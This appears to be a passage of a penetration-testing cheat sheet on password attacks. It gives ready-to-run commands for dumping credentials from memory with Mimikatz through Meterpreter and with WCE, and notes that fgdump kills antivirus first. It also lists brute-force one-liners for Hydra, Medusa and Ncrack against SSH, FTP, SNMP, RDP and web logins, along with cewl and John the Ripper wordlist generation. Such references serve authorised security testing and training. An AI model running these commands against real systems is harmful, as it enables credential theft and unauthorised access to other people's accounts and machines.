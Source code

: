         -   fgdump.exe - attempts to kill local antiviruses before
            attempting to dump the password hashes and
            cached credentials.

    -   Windows Credential Editor (WCE)

        -   allows one to perform several attacks to obtain clear text
            passwords and hashes

        -   wce -w

    -   Mimikatz

        -   extract plaintexts passwords, hash, PIN code and kerberos
            tickets from memory. mimikatz can also perform
            pass-the-hash, pass-the-ticket or build Golden tickets  
            [*https://github.com/gentilkiwi/mimikatz*](https://github.com/gentilkiwi/mimikatz)
            From metasploit meterpreter (must have System level access):
            `meterpreter> load mimikatz
            meterpreter> help mimikatz
            meterpreter> msv
            meterpreter> kerberos
            meterpreter> mimikatz_command -f samdump::hashes
            meterpreter> mimikatz_command -f sekurlsa::searchPasswords`

    -   Password Profiling

        -   cewl can generate a password list from a web page  
            `cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt`

    -   Password Mutating

        -   John the ripper can mutate password lists  
            nano /etc/john/john.conf  
            `john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt`

    -   Medusa

        -   Medusa, initiated against an htaccess protected web
            directory  
            `medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10`

    -   Ncrack

        -   ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

    -   Hydra

        -   Hydra brute force against SNMP  
            `hydra -P password-file.txt -v $ip snmp`

        -   Hydra FTP known user and password list  
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`
